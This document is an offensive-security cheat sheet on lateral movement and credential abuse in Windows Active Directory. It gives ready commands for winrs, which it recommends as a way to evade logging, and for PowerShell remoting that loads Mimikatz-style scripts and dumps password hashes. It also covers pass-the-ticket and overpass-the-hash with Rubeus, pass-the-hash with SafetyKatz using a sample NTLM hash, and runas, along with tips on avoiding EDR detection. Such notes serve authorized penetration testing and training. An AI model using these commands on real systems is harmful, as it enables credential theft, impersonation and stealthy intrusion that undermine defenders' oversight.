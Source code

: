 ## Winrs
>**ℹ️ Info:**
>We can use winrs in place of PSRemoting to evade the logging (and still reap the benefit of 5985 allowed between hosts).

```cmd
# With local credentials
winrs -remote:server1 -u:.\administrator - p:Pass@1234 cmd

# With domain credentials
winrs -remote:server1 -u:contoso.local\administrator - p:Pass@1234 cmd
```
---
## PowerShell Remoting

**Connect to a machine:**
```powershell
Enter-PSSession -Computername <COMPUTERNAME>
```

**Connect to a machine and save the session:**
```powershell
$sess = New-PSSession -Computername <COMPUTERNAME>
Enter-PSSession $sess
```

**Load script to a machine:**
```powershell
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $sess
```

**Execute command or scriptblock:**
```powershell
Invoke-Command –Scriptblock ${function:Get-PassHashes} -Session $sess
```

**Execute locally loaded function to a machine:**
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -Session $sess -ArgumentList
```

--- 
## Pass-The-Ticket
Injects a TGT into the current session to impersonate the owner of it

### Rubeus
```cmd
# Inject TGT into current session
Rubeus.exe ptt /ticket:doIFsjCCBa6gAwIBBaEDAgEWooI...
```

>**ℹ️ Info:**
>More OPSEC-friendly than OverPass-The-Hash since we are reusing a TGT instead of asking for a new one.

---
## Pass-The-Hash
Use a NTLM hash to authenticate against NTLM.
### SafetyKatz
```cmd
# Spawn a cmd session
SafetyKatz.exe '"sekurlsa::pth /domain:contoso.local /user:Administrator /ntlm:917ecdd1b4287f7051542d0241900cf0"'

# Spawn a powershell session
SafetyKatz.exe '"sekurlsa::pth /domain:contoso.local /user:Administrator /ntlm:917ecdd1b4287f7051542d0241900cf0 /run:powershell.exe"'
```

---
## OverPass-The-Hash
Use a NTLM hash or AES key to authenticate against kerberos.

### Rubeus
```cmd
# With an NTLM hash (Usually flagged by EDRs)
Rubeus.exe asktgt /domain:contoso.local /user:administrator /rc4: /ptt

# With an AES-128 key (Admin cmd required)
Rubeus.exe asktgt /domain:contoso.local /user:administrator /aes128: /ptt

# With an AES-256 key (Admin cmd required)
Rubeus.exe asktgt /domain:contoso.local /user:administrator /aes256: /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
>**ℹ️ Info:**
>AES-256 key is more OPSEC-friendly than the others.

---
## RunAs
```cmd
# Run network related stuff with password
runas /netonly /user:techcorp.local\MSOL_16fb75d0227d cmd.exe
```